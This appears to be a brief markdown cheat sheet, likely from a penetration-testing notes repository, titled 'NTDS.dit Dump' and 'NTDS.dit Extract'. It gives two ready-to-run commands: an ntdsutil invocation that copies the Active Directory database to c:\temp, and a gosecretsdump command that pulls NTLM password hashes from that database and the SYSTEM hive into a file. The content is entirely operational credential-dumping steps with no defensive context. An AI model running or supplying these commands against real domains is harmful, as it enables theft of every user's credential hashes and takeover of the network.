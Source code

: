 # NTDS.dit Dump
## [ntdsutil](https://github.com/clr2of8/DPAT)
```sh
ntdsutil "ac in ntds" "ifm" "cr fu c:\temp" q q
```

# NTDS.dit Extract
## [gosecretsdump](https://github.com/C-Sto/gosecretsdump)
```sh
gosecretsdump -enabled -noprint  -ntds <ntds.dit> -system <SYSTEM> -out <ntlm.domain.txt>
```
